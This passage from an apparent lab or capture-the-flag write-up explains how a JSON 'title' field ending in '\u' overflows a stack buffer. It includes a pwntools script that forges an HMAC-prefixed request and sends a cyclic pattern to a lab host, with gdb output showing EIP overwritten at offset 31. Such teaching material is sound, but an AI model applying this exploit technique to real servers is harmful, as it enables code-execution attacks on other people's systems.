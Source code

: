 Now we can overwrite EIP.

Overwriting EIP
---------------------
As we say, to create the buffer overflow the last character of "title" or "contents" json values must be "\u". We will use the "title" json value. The "title" buffer in **handle_request** is 129 bytes long because we start at 0 (title[128], so from 0 to 128). Thus, if we place "\u" at the position 128 in the "title" json value, the "dest" variable will be incremented from title[127] to title[129] and the while loop will continue (because "end" points on title[128]).

We also have to find how many bytes there is between the title[128] buffer and EIP. Since I hardly understand why title[128] is not just behind EBP and EIP on the stack, we will use a pattern to overwrite EIP:
{% highlight python linenos %}
#!/usr/bin/python2
import hmac
from hashlib import sha1
from pwn import *
import json, random, string

#Connection to the host
c = remote('192.168.56.101',20003)

#Get token
token = c.recvline().split('"')[1]
log.info("Token: " + token)

#Pattern
pattern = cyclic(100, alphabet=string.ascii_uppercase)

while(True):

    title = ''.join([random.choice(string.ascii_letters + string.digits) for n in xrange(100)])
    #"tags" value is an array
    #'\\u1111' because of the 'src += 4;'
    msg = json.dumps({"tags":("A"), "title":title+'A'*27+'\\u1111'+pattern, "contents":contents,
                        "serverip":"192.168.56.1:80"}, ensure_ascii=False)

    #'\n' between token and json for json_tokener_parse function to work (inside parse_request())
    payload = token + "\n" + msg

    hashed = hmac.new(bytearray(token), bytearray(payload), sha1)

    if(hashed.hexdigest().startswith('0000')):
        log.info("Payload: " + payload)
        break

c.send(payload)

log.info("Payload sent!")
log.info("Pattern: " + pattern)
{% endhighlight %}*
And when started, we get:
```shell
Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2042]
0x41414941 in ?? ()
(gdb)
```
0x41414941 is AAIA (because endianess). EIP is thus overwritten at the offset 31 of the pattern.

